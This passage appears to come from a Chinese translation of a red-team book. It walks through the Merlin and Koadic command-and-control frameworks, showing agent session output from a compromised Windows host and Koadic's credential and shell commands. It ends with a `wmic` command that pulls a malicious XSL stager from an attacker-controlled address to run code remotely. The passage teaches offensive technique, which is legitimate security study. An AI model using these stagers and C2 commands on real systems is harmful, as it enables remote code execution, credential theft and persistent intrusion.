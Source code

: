 下面是你应该在攻击服务器上看到的内容：

```
[+] New authenticated agent 6c2ba6-daef-4a34-aa3d-be944f1

Merlin>> **interact 6c2ba6-daef-4a34-aa3d-be944f1**
Merlin[agent][6c2ba6-daef-...]>> ls

[+] Results for job swktfmEFWu at 2020-09-22T18:17:39Z

Directory listing for: C:\
-rw-rw-rw-  2020-09-22 19:44:21  16432  Apps
-rw-rw-rw-  2020-09-22 19:44:15  986428 Drivers
`--snip--`
```

该代理工作得非常顺利。现在我们可以在目标机器上丢弃凭证，搜索文件，移动到其他机器，启动键盘记录器，等等。

Merlin 仍然是一个处于初期阶段的项目，因此你会遇到一些 bug 和不一致的情况，主要是由于 Golang 中的 HTTP/2 库不稳定。毕竟它不是随便叫做“beta”版本的，但这个项目背后的努力绝对令人惊叹。如果你曾经想参与 Golang 的开发，或许这是一个机会。这个框架目前有接近 50 个后期利用模块，从凭证收集器到用于内存中编译和执行 C#的模块应有尽有。

### Koadic

Koadic 框架由 zerosum0x0 开发（[`github.com/zerosum0x0/koadic/`](https://github.com/zerosum0x0/koadic/)），自 DEF CON 25 发布以来，已获得广泛关注。Koadic 完全专注于 Windows 目标，但其主要卖点是它实现了各种时髦且巧妙的执行技巧：`regsvr32`（一个 Microsoft 工具，用于在 Windows 注册表中注册 DLL，以便其他程序调用；它可用于欺骗像*srcobj.dll*这样的 DLL 执行命令）、`mshta`（一个 Microsoft 工具，用于执行 HTML 应用程序或 HTA）、XSL 样式表等等。用以下命令安装 Koadic：

```
root@Lab:~/# **git clone https://github.com/zerosum0x0/koadic.git**
root@Lab:~/# **pip3 install -r requirements.txt**
```

然后使用以下命令启动它（我还包括了`help`输出的开始部分）：

```
root@Lab:~/# **./koadic**

(koadic: sta/js/mshta)$ **help**
    COMMAND     DESCRIPTION
    ---------   -------------
    cmdshell    command shell to interact with a zombie
    creds       shows collected credentials
    domain      shows collected domain information
`--snip--`
```

让我们试验一个*stager*——一段小代码，会被放置在目标机器上，启动连接到服务器并加载其他有效载荷（通常存储在内存中）。一个 stager 占用的空间很小，因此如果反恶意软件工具标记了我们的代理，我们可以轻松调整代理，而不必重写我们的有效载荷。Koadic 附带的一个 stager 通过嵌入在 XML 样式表中的 ActiveX 对象传递其有效载荷，也称为*XSLT*（[`www.w3.org/Style/XSL/`](https://www.w3.org/Style/XSL/)）。它那恶意格式化的 XSLT 样式表可以输入到本地的 `wmic` 工具中，该工具将迅速执行嵌入的 JavaScript，并呈现 `os get` 命令的输出。在 Koadic 中执行以下命令以触发 stager：

```
(koadic: sta/js/mshta)$ **use stager/js/wmic**
(koadic: sta/js/wmic)$ **run**

[+] Spawned a stager at http://192.168.1.25:9996/ArQxQ.xsl

[>] wmic os get /FORMAT:"http://192.168.1.25:9996/ArQxQ.xsl"
```
